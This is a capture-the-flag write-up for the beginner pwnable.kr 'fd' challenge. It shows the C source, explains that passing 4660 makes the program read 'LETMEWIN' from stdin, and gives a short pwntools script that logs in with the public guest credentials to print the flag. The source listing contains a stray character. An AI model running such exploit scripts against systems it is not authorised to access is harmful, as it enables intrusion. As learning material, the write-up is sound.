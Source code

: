## Description
fd - 1 pt [writeup]

> Mommy! what is a file descriptor in Linux?
>
> \* try to play the wargame your self but if you are ABSOLUTE > beginner, follow this tutorial link:
> https://youtu.be/971eZhMHQQw
>
> ssh fd@pwnable.kr -p2222 (pw:guest)

## Solution
We are given a binary file `fd`, and it's source code `fd.c`. Let's take a look at the source code:
### fd.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;
f
}
```
We can see that the program is reading from a file descriptor, which is passed as the first argument to the program.\
The program then subtracts `0x1234` from the file descriptor and reads 32 bytes from that file descriptor.\
If the string "LETMEWIN\n" is read, the program prints the flag by calling `/bin/cat flag`.

As you might already know, `stdin` is file descriptor `0`, so if we pass `0x1234` as the first argument to the program, it will read from `stdin`.\
Then we can just pass the string "LETMEWIN\n" to the program and it will print the flag.\
Notice that `0x1234` in hex is `4660` in decimal.

That's basically it, here's the exploit code:
```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'debug'
context.arch = 'i386'
# context.binary = './fd'

shell=ssh('fd','pwnable.kr',password='guest',port=2222)
p = shell.process(['fd', '4660'])

p.sendline(b"LETMEWIN")
p.interactive()
```

## Setup
```shell
scp -P2222 fd@pwnable.kr:* ./fd # Download the files from the server
```
